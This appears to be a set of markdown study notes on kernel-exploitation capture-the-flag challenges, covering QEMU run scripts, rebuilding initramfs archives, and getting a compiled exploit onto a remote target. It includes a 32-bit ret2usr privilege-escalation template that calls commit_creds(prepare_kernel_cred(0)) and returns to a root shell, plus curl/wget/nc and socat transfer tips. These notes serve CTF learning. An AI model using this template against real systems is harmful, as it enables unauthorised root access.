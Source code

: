 ## Kernel
### Tricks
* https://github.com/Myldero/kernelinit/blob/master/tricks.md
### Running
* Usually provide a run script or command
* Example:
``` bash
#!/bin/sh

qemu-system-x86_64 -cpu qemu64,-smep,-smap \
        -m 64 \
        -kernel ./kernel \
        -nographic \
        -append "console=ttyS0 quiet" -initrd ./new_initramfs \
        -monitor /dev/null
 
```
* Check cpu protections
* Check monitor
	* Should never be enabled:
		* Can raw read all memory
* Run to make sure it works
	* Not working challenge right away, could mean dead challenge/author problem
	* Could mean you problem
* Check perms (authors mess up)
	* Check flag permission 
	* Check write access to sbin
	* Check write access to /
	* Check write access to bin
	* Check busybox setuid
### CPIO archives
* Can be gziped
* Extracting
	* cpio -idv < {cpio file}
* Building
	* find . | cpio -o -H newc > {new cpio archive}
* Take note of version version handling
	* gzip
	* SVR4 with no crc
	* etc
### Files
* Have a file directory now
* Pull challenge (if needed)
* Modify init, become root (locally)
	* Usually done with removal of `exec su user`
	* Modify anything else, locally
### Run script
* Disable protections, for testing, if needed/wanted
* Point to new cpio archive, allows the ability to reuse original if not overwritten
* kill/pkill if terminal hangs
* gdb
### C Code
* With new cpio we can add files
* exploit.c (or whatever)
* gcc compile with -static (usually needs to be static!!!!)
* Templates are useful, saving flags/registers (common)
* Example:
``` c
struct trap_frame{
    void *eip;
    uint32_t cs;
    uint32_t eflags;
    void *esp;
    uint32_t ss;
};

struct trap_frame tf;
void launch_shell(){
    execl("/bin/sh","sh",NULL);
}

void prepare_tf(){
    asm("pushl %cs;"
        "popl tf+4;" //set cs
        "pushfl;"
        "popl tf+8;" //set eflags;
        "pushl %esp;"
        "popl tf+12;" //set esp;
        "pushl %ss;"
        "popl tf+16;"); //set ss;
    tf.eip = &launch_shell;
    tf.esp -= 1024;
}

#define KERNCALL __attribute__((regparm(3)))
void (*commit_creds)(void *) KERNCALL = (void*)0xc10682e0;
void *(*prepare_kernel_cred)(void *) KERNCALL = (void *)0xc1068480;

void payload(void){
    commit_creds(prepare_kernel_cred(0));
    asm("mov $tf,%esp;"
        "iret;"
        );
}
```

### Build Script
  * Save time, create a build script
  * Example:
``` bash
cd output

gcc -static exploit.c

if [ $? != 0 ]
then
        exit
fi

find . | cpio -o -H newc > new_initramfs

mv new_initramfs ..

```

### Remote
* Get the file over now
* If network communication (unlikely), curl/wget/nc the binary onto the system
* * If gcc exists, use theirs
* Else... You need to copy and paste the binary
	* SCRIPT IT, better yet have the script done before hand!!!
* Usually limited to sending 1024 at a time, if that
* Static binaries are much larger than regular
* Smaller the binary easier to send.
	* gcc -s -static
		* Stripped
* Possibly use musl-gcc
	* May not have full functionality
* GZIP, BZIP, TAR
* Probably need to send over in base64 or hex

## Different Arch binaries
* Usually qemu-arch will work
	* Doesn't usually have ASLR
	* Doesn't usually have protections
		* CET
		* PAC
		* BTI
		* NX
* Doesn't usually handle threading
	* Need to use qemu-system
		* Usually not provided
		* Have yourself

### Qemu-system for userspace
* Can run binary, but what about scripts?
* Set up network connections
* Example:
  ``` bash
#run.sh
#!/bin/sh

ip link add br0 type bridge
ifconfig br0 up
ifconfig br0 10.10.0.1/24

qemu-system-x86_64 -cpu qemu64,-smep,-smap \
        -m 64 \
        -kernel ./kernel \
        -nographic \
        -append "console=ttyS0 quiet" -initrd ./new_initramfs \
        -monitor /dev/null
        -netdev bridge,id=br0 -device virtio-net,netdev=br0,mac=e6:c8:ff:09:76:99
```

```bash
#init
...
ifconfig eth0 up
ifconfig eth0 10.10.0.2
...
```

``` bash
#/etc/qemu/bridge.conf
allow br0
```

* gdb
* gdbserver
* nc/socat
* Socat for running on socket still `socat TCP-LISTEN:8080,fork EXEC:./mybinary,pty`